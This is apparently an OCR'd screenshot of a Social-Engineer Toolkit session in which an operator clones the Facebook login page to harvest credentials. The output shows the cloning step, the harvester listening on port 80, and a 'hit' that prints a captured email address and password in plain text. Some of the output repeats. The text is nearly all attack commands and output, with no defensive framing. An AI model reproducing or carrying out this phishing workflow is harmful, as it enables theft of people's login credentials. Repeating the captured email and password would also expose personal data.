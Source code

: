 If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
IP address below, not your NAT address. Additionally, if you don't know
basic networking concepts, and you have a private IP address, you will
need to do port forwarding to your NAT IP address from your external IP
address. A browser doesn’t know how to communicate with a private IP
address, so if you don't specify an external IP address if you are using
this from an external perspective, it will not work. This isn't a SET issue
this is how networking works.

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.10]: (enter) 

==================

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.10]: 
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php                                                                                         
[*] This could take a little bit...                                                                                                                   

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.              
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                                                                        
[*] Information will be displayed to you as it arrives below:   (192.168.1.10)

=======================

[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php                                                                                         
[*] This could take a little bit...                                                                                                                   

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.              
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                                                                        
[*] Information will be displayed to you as it arrives below:                                                                                         
10.5.128.1 - - [14/Jan/2024 10:40:25] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: jazoest=21020                                                                                                                                  
PARAM: lsd=AVoatx-ZTkc                                                                                                                                
PARAM: display=                                                                                                                                       
PARAM: isprivate=                                                                                                                                     
PARAM: return_session=                                                                                                                                
POSSIBLE USERNAME FIELD FOUND: skip_api_login=                                                                                                        
PARAM: signed_next=                                                                                                                                   
PARAM: trynum=1                                                                                                                                       
PARAM: timezone=                                                                                                                                      
PARAM: lgndim=                                                                                                                                        
PARAM: lgnrnd=053826_qtnO                                                                                                                             
PARAM: lgnjs=n                                                                                                                                        
POSSIBLE USERNAME FIELD FOUND: email=prosa41@gmail.com                                                                                                  
POSSIBLE PASSWORD FIELD FOUND: pass=qwertyuiop                                                                                                        
POSSIBLE USERNAME FIELD FOUND: login=1                                                                                                                
PARAM: prefill_contact_point=                                                                                                                         
PARAM: prefill_source=                                                                                                                                
PARAM: prefill_type=                                                                                                                                  
PARAM: first_prefill_source=                                                                                                                          
PARAM: first_prefill_type=                                                                                                                            
PARAM: had_cp_prefilled=false                                                                                                                         